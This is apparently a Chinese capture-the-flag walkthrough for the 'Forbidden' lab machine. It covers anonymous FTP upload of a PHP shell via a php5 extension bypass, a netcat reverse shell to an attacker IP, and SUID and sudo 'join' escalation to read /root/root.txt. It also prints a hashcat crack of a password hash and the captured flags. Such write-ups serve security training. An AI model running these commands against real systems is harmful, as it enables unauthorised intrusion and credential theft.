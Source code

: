 ```yaml
---
date: 2025-04-02
tags:
    - ftp匿名登录
    - suid提权(join, search)
    - hashcat
---
```




# Forbidden

`fscan`扫描

```bash
$ fscan -h 192.168.1.32
192.168.1.32:80 open
192.168.1.32:21 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://192.168.1.32       code:200 len:241    title:None
[+] ftp 192.168.1.32:21:anonymous
   [->]www
```

## FTP匿名登录上传shell

发现开放`21`、`80`端口，并且有`ftp`匿名登录，登录查看`www`目录

![](./img/Forbidden-1.png)

`note.txt`有个提示

```
The extra-secured .jpg file contains my password but nobody can obtain it.
```

但是这个照片没有，尝试上传`php`文件，后缀绕过过滤

```
Php|php2|php3|php4|php5|php6|php7|pht|phtm|phtml
```

发现`php5`可以被解析

![](./img/Forbidden-2.png)

## ELF提权

先反弹`shell`再提权，上传`nc`到`/tmp`目录给执行权限执行

```bash
./nc 192.168.1.94 9999 -e /usr/bin/bash
```

获得`shell`后找`suid`权限

```
find / -perm -4000 2>/dev/null
```

发现了`/home/marta/.forbidden`

![](./img/Forbidden-3.png)

在`marta`的家目录有个获得`1001`用户权限的代码，以及已经编译好的程序，直接执行可以获得`markos`的权限

![](./img/Forbidden-5.png)

`user.txt`内容

```
HMVpussycat
```

因为之前有提示密码在`jpg`文件里，查找一下

```
find / -name *.jpg -type f 2>/dev/null
```

找到了`TOPSECRETIMAGE.jpg`

![](./img/Forbidden-6.png)

各种`010editor` `stegsolve`都没找到隐藏信息，密码应该就是`TOPSECRETIMAGE`

使用该密码登录`marta`

```bash
$ su marta
Password:TOPSECRETIMAGE
```

然后`sudo -l`发现

![](./img/Forbidden-7.png)

## join提权

`join`读取`root`下面的`root.txt`

```
sudo -u root /usr/bin/join -a 2 /dev/null /root/root.txt
```

![](./img/Forbidden-8.png)

```
HMVmymymymymind
```

或者直接`hashcat`破解`peter`的密码

```
hashcat '$6$QAeWH9Et9PAJdYz/$/4VhburW9KoVTRY1Ry63wNEfr4rxwQGaRJ3kKW2nEAk0LcqjqZjy/m5rtaCi3VebNu7AaGFhQT4FBgbQVIyq81' ~/Desktop/secs/tools/dict/rockyou.txt
```

![](./img/Forbidden-9.png)

## peter提权root

![](./img/Forbidden-10.png)

![](./img/Forbidden-11.png)

造成`php5`后缀可以被解析的原因是

`/etc/nginx/sites-available/default` 中配置了

```nginx
location ~ \.php5$ {
		include snippets/fastcgi-php.conf;
```

![](./img/Forbidden-12.png)
